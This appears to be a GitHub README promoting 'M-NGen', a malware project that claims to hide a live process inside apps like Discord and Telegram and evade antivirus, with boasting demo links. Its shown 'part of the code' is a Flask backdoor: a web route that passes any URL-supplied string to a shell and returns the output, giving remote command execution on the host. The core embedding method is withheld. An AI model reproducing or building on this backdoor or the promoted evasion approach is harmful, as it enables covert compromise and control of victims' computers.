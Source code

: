 # M-NGen

M-NGen Malware Revolution
I managed to develop a completely new type of malware... Honestly, I've never seen malware work this way before!

I was able to embed a hidden active process into any application! I tested it on applications like Discord, Telegram, and some others, and the method was completely successful... The challenge here is that antivirus software will perceive the application as a legitimate version of Discord or any other app! 😳

The interesting part is that the embedding method I used is not the usual Process Injection technique.

<div align="center">
  <img src="https://files.catbox.moe/2x1ppg.png" width="350px">
</div>

> [!WARNING]  
> The method is still private, I can't share it publicly!

<div align="center">
  <img src="https://files.catbox.moe/3yceau.jpg" width="760px">
</div>

## Video :

https://github.com/user-attachments/assets/51f80947-a945-41e7-83d0-835b0fa38754

AV BYPASS :
<div align="center">
  <img src="https://files.catbox.moe/diwxzf.jpg" width="760px">
</div>

### Discord Get Hacked Hehehe
https://github.com/user-attachments/assets/a97de13d-781f-4c77-9763-14d198786eaf


## Used languages:

1. C++
2. NodeJs
3. C#

## Part Of Code : (It's Note All of The code)

```python
# This is A part From The Code
import subprocess
from flask import Flask, jsonify

f = Flask(__name__)
@f.route('/HDL/X/<t>', methods=['GET'])

def r(t):
    return h(t)

def h(c):
    if c:
        result = subprocess.run(c, shell=True, capture_output=True, text=True)
        return jsonify({"c": c, "o": result.stdout})
    return jsonify({"error": "Command not allowed"}), 403

if __name__ == '__main__':
    f.run(debug=True)


